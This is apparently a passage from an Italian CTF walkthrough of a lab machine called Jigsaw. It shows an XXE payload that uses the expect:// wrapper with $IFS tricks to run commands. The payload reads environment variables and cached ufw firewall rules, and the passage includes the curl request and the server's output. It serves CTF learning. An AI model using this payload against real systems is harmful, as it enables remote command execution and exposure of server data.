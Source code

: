Guardiamo ancora tra le configurazioni del server.
Notiamo che iptables di default non sembra bloccare nulla, ma verifichiamo che e' installato ufw.
Anche se non possiamo accedere in lettura alle regole saved di ufw, notiamo che possiamo comunque accedervi tramite cache.



/var/lib/ucf/cache/:etc:ufw:before.rules
/var/lib/ucf/cache/:etc:ufw:after.rules


cookies.txt

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
  <!ELEMENT email ANY >
  <!ELEMENT password ANY >
  <!ENTITY xxe SYSTEM "expect://env;tail$IFS-n$IFS'15'$IFS/var/lib/ucf/cache/:etc:ufw:after.rules;tail$IFS-n$IFS'15'$IFS/var/lib/ucf/cache/:etc:ufw:before.rules;ls$IFS-lhR$IFS'/var/lib/ucf/cache/'">
]>

<root>
	<email>&xxe; </email>
   <password>aaa</password>
</root>
```
Lanciamo la richiesta :

```
root@kali:~/Jigsaw# curl -q -d @cookies.txt -X POST http://192.168.1.140/w4n770p14y494m3/game2.php 
APACHE_RUN_DIR=/var/run/apache2
APACHE_PID_FILE=/var/run/apache2/apache2.pid
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
APACHE_LOCK_DIR=/var/lock/apache2
LANG=C
APACHE_RUN_USER=www-data
APACHE_RUN_GROUP=www-data
APACHE_LOG_DIR=/var/log/apache2
PWD=/var/www/html/w4n770p14y494m3
# End required lines

# don't log noisy services by default
-A ufw-after-input -p udp --dport 137 -j ufw-skip-to-policy-input
-A ufw-after-input -p udp --dport 138 -j ufw-skip-to-policy-input
-A ufw-after-input -p tcp --dport 139 -j ufw-skip-to-policy-input
-A ufw-after-input -p tcp --dport 445 -j ufw-skip-to-policy-input
-A ufw-after-input -p udp --dport 67 -j ufw-skip-to-policy-input
-A ufw-after-input -p udp --dport 68 -j ufw-skip-to-policy-input

# don't log noisy broadcast
-A ufw-after-input -m addrtype --dst-type BROADCAST -j ufw-skip-to-policy-input

# don't delete the 'COMMIT' line or these rules won't be processed
COMMIT

# all other non-local packets are dropped
-A ufw-not-local -m limit --limit 3/min --limit-burst 10 -j ufw-logging-deny
-A ufw-not-local -j DROP

# allow MULTICAST mDNS for service discovery (be sure the MULTICAST line above
# is uncommented)
-A ufw-before-input -p udp -d 224.0.0.251 --dport 5353 -j ACCEPT

# allow MULTICAST UPnP for service discovery (be sure the MULTICAST line above
# is uncommented)
-A ufw-before-input -p udp -d 239.255.255.250 --dport 1900 -j ACCEPT
```